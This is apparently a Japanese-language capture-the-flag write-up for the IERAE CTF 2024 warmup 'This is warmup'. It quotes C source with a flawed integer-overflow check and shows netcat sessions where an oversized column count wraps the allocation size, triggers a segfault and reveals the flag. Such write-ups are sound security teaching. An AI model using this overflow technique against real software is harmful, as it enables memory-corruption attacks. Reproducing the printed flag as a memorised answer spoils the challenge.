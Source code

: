 # This is warmup:pwn

Trust me. If this problem is too difficult for you, I don't mind you burying me in the ground!
nc 104.199.135.28 33334

attachment\
[firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz]()

Difficulty Level : warmup\
Point : 193\
Solved : 48

# Solution
とりあえず、`nc 104.199.135.28 33334`を実行してみる。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 2
I made Ichimatsu design for you!
0 1
1 0
```
縦横の数字を入力すると、指定の大きさの市松模様を出力するプログラムとなっているらしい。
配布ファイルに含まれているchal.cを確認する。
```
int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);
  
  unsigned long long int nrow, ncol;

  printf("Enter number of rows: ");
  scanf("%llu", &nrow);

  printf("Enter number of cols: ");
  scanf("%llu", &ncol);

  if (nrow * ncol < nrow) { // this is integer overflow right?
    puts("Don't hack!");
    exit(1);
  }

  char *matrix = malloc(nrow*ncol);
  if (!matrix) {
    puts("Too large!");
    exit(1);
  }
```
非常に親切に、セグメンテーションフォルトを起こすとフラグが取れることと、整数オーバーフローが起こる場所が記載されている。\
愚直に、大きい値を入力してみるが、フラグは出てこなかった。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9999999999999999999999999999999999999999999999999999999999999999
Too large!
```
`ncol`はlong long intと定義されているため、long long intの最大値周辺を攻める方針で、指示通りにオーバーフローさせる。\
long long intの最大値は、9223372036854775807なので、9223372036854775808以上の数字を入力していく。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775808
Don't hack!

$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775809
Well done!
IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}
```
さらに大きな数値でも試してみたが、`9223372039999999999`まで大きくなるとプログラムが動かなくなり、さらに大きくすると、`Too large!`と出力されるようになった。
flagが得られた。

`IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}`
